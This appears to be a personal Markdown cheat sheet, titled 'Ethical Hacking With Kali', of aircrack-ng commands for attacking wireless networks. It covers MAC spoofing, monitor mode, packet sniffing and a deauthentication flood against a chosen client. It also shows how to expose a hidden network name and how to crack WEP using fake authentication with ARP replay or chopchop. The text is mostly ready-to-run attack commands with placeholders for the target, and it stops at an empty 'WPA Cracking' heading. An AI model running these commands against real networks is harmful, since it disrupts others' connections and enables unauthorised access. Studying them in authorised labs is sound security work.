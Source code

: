 # Ethical Hacking With Kali

## Change MAC address
iwconfig to get wireless adapter name

´´´
ifconfig wlan0 down

macchanger --random wlan0

ifconfig wlan0 up
´´´

## Enable monitor mode
'''
airmon-ng start wlan0
airmon-ng stop wlan0mon

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up

ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
'''
## Sniffing
'''
airodump-ng wlan0
'''
BSSID = MAC of accesspoint
PWR = "how far away is it"
Data = nr of useful packets that has been sniffed
/s = nr of packets collected in the last 10 sec
CH = Broadcast channel
MB = Maximum speed
ENC = Encryption used
CIPHER = Cipher used
AUTH = Auth required for connection
ESSID = Name

### Sniffing specific BSSID
'''
airodump-ng --channel xx --bssid macOfTargetBSSID --write fileName wlan0


## Deauthentication attacks
'''
aireplay-ng --deauth 10000 -a apMAC -c clientToAttackMAC wlan0
'''

## Find hidden ESSID
'''
airodump-ng --bssid targetApMAC --channel targetApChannel wlan0
'''
keep it running and deauth a client from the target
'''
aireplay-ng --deauth 4 -a apMAC -c clientToAttackMAC wlan0
'''
when it reconnects we will capture the networkname in airodump-ng


## Cracking WEP
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0
'''
At the same time run:
'''
aircrac-ng captureTargetAP.cap
'''

If the activity is too low increase it by:
### FakeAuth to increase traffic
First option = fakeAuth then ARP request replay
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0

aireplay-ng --fakeauth 0 -a targetApMAC -h attackingWifiCardMAC wlan0

aireplay-ng --arpreplay -b targetApMAC -h attackingWifiCardMAC wlan0
'''
Second option = fakeAuth then Korek ChopChop
'''
airodump-ng --bssid targetApMAC --channel targetApChannel --write captureTargetAP wlan0

aireplay-ng --fakeauth 0 -a targetApMAC -h attackingWifiCardMAC wlan0

aireplay-ng --chopchop -b targetApMAC -h attackingWifiCardMAC wlan0
''' 
Third option
Fragmentation attack...

## WPA Cracking


